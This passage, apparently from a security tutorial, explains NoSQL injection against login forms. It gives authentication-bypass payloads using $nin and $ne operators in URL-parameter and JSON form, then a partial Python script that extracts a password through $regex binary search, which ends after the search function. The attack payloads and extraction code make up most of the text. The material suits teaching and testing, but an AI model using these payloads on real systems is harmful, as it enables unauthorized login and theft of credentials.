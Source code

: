 If you don't know anything about other users, you can also simply exclude any user you don't want with the `$nin` (Not IN) keyword, and an array:

{% code title="URL parameters" %}
```php
username[$nin][]=admin&username[$nin][]=other&password[$ne]=wrong
```
{% endcode %}

{% code title="JSON" %}
```json
{
  "username": {
    "$nin": ["admin", "other"]
  },
  "password": {
    "$ne": "wrong"
  }
}
```
{% endcode %}

### RegEx Binary Search

Logging in does not regularly respond with the password for example that we made always true. This results in us being logged in, but not knowing the actual password, while it might still be useful to know this.&#x20;

A login action typically is a boolean response, resulting in a successful login, or an unsuccessful one. With the powerful NoSQL operators, we can abuse this feedback to slowly extract values from the query character by character, using `$regex`. The RegEx pattern will match if there is a password with that pattern, and fail if there is not.

This can be optimized by using [Binary Search](https://en.wikipedia.org/wiki/Binary\_search\_algorithm), an algorithm that allows you to cut in half the search space every time you ask a yes/no question. This makes finding any character in ASCII take only $$log_2(127) \approx 7$$ requests. See the following script for an example:

```python
# A function that returns True if the regex passes
def test_password(regex):
    data = {
        "username": "admin",
        "password": {
            "$regex": regex
        }
    }

    r = requests.post(URL, json=data, allow_redirects=False)

    return not 'Login Failed' in r.text

# Binary Search algorithm
def search_once(test_function, prefix=""):
    min = 0
    max = 127

    while min <= max:
        mid = (min + max) // 2

        if test_function(fr'^{re.escape(prefix)}[\x{mid:02x}-\x7f]'):
            min = mid + 1
        else:
            max = mid - 1

    return chr(max)

```